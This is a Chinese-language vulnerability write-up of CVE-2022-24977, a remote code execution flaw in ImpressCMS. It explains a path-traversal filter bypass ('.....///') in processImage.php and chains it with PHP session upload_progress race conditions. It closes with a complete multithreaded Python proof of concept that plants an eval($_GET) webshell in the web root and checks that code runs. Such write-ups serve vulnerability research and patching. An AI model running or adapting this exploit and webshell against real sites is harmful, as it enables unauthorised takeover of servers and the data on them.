

- [CVE-2022-24977 ImpressCMS 远程代码执行](#cve-2022-24977-impresscms-远程代码执行)
	- [影响版本](#影响版本)
	- [环境搭建](#环境搭建)
	- [原理分析](#原理分析)
		- [任意文件复制](#任意文件复制)
		- [upload_progress](#upload_progress)
		- [利用思路](#利用思路)
		- [POC](#poc)
	- [参考](#参考)
# CVE-2022-24977 ImpressCMS 远程代码执行
## 影响版本
version < 1.4.2 pre-release
version < v2.0.0 alpha 11
## 环境搭建
`docker pull ghcr.io/impresscms/impresscms/nginx-php-mysql:v2.0.0_alpha10`
## 原理分析
漏洞思路在于利用类似于copy等函数能将一个文件复制到另一个路径时的利用思路.
### 任意文件复制
在processImage.php中有如下代码
```php
$action = $_REQUEST["action"]; $fileInfo = pathinfo($imageName); $extension = $fileInfo['extension']; switch ($action) {
	case "undo":  // This is actually revert now, as only revert is supported
		if (file_exists($origName)) {
			unlink($imageName); copy($origName, $imageName); }
		break; case "save":  // Copy working image back to original
		copy($imageName, $origName); break; case "resize": // additional required params: w, h
```
其中的copy函数会将`$origName`文件复制到`$imageName`路径下,而这两个参数都是从$REQUEST数组中取得,在之前对两个路径都有一次过滤用来防止路径穿越,过滤代码如下
```php
$imageName = str_replace(array("../", "./"), "", $_REQUEST['imageName']); 
$origName = str_replace(array("../", "./"), "", $_REQUEST['origName']);
```
但该过滤可以被绕过,当传入`.....///`时,过滤结果为`../`仍然可以造成目录穿越.

替换过程如下
.....///
...~~../~~//
..~~./~~/
../
导致现在可以复制系统中任意一个已存在的文件到任意位置,且无后缀限制.一般情况可以考虑利用上传功能上传一个.png图片马,再利用该漏洞将图片马修改后缀为php来GetShell。
### upload_progress
更通用的方法是利用upload_progress和时间竞争来写入WebShell.
php-session选项:
1. session.save_path , session文件存放路径,常见默认路径:
```
/var/lib/php/sess_PHPSESSID
/var/lib/php/sessions/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
```
2. session.upload_progress.cleanup = on,默认on,上传结束后立刻清空临时文件.
3. session.use_strict_mode =0 ,允许用户自定义Session ID,即生成的session 文件名字可以在cookie中指定.
4. session.auto_start：如果开启这个选项，则PHP在接收请求的时候会自动初始化Session，不再需要执行session_start()。但默认情况下,这个选项都是默认关闭的。


在php 5.4之后支持upload_progress功能,当 session.upload_progress.enabled 选项开启时(默认开启),PHP 能够在每一个文件上传时 监测上传进度。这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态。
同时如果在上传文件时提供了PHP_SESSION_UPLOAD_PROGRESS变量的话那么会自动初始化Session,生成Session文件,该Session文件包含了上传文件的进度信息,同时其中的`PHP_SESSION_UPLOAD_PROGRESS.name`内容可以由用户可控.(还有一种情况是对phpinfo()页面发送文件上传包也会生成session文件)。

### 利用思路
利用upload_progress特性,发送带PHP_SESSION_UPLOAD_PROGRESS变量的上传包,因为session.use_strict_mode默认开启,可以同时指定生成的Session文件名称(如sess_poctest),因为文件内容会被立刻清空,所以需要一边一直发包来生成含有webshell的文件(或者上传大文件)一边利用任意文件复制来将该session文件移动到web目录下并修改文件后缀为.php即可。

### POC
```python
import sys
import string
import requests
from multiprocessing.dummy import Pool as ThreadPool
if len(sys.argv)<3:
    print('python '+sys.argv[0]+' http://localhost 1')
    print('python '+sys.argv[0]+' http://localhost 2')
    exit()
HOST = sys.argv[1]
PATH = '/editors/CKeditor/ceditfinder/imageeditor/processImage.php'
sess_name = 'letspwnimpressCMS'
headers = {
    'Connection': 'close', 
    'Cookie': 'PHPSESSID=' + sess_name
}
payload = '<?=eval($_GET[a]);exit;//'
def runner1(i):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': 'A' + payload + 'A'
    }
    while 1:
        fp = open('/etc/hosts', 'rb')
        r = requests.post(HOST+PATH, files={'f': fp}, data=data, headers=headers)
        fp.close()
def runner2(i):
    filename = '/var/lib/php/sessions/sess_' + sess_name
    while 1:
        url = HOST+PATH+'?origName=.....///.....///.....///.....///uploads/aa.php&imageName=/var/lib/php/sessions/sess_letspwnimpressCMS&action=save'
        r = requests.get(url, headers=headers)
        c = r.content
        url2 = requests.get(HOST+'/uploads/aa.php?a=echo%20%2799999999999999999999999999999%27;copy(%27aa.php%27,%27bb.php%27);')
        if('99999999999999999999999999999' in url2.text):
            print('[+] done!')
            print('[!] Check '+HOST+'/uploads/bb.php?a=phpinfo();')
            exit()

if sys.argv[2] == '1':
    runner = runner1
else:
    runner = runner2

pool = ThreadPool(32)
result = pool.map_async( runner, range(32) ).get(0xffff)
```
## 参考
https://r0.haxors.org/posts?id=8  
https://xz.aliyun.com/t/9545#toc-4  
https://blog.orange.tw/2018/10/  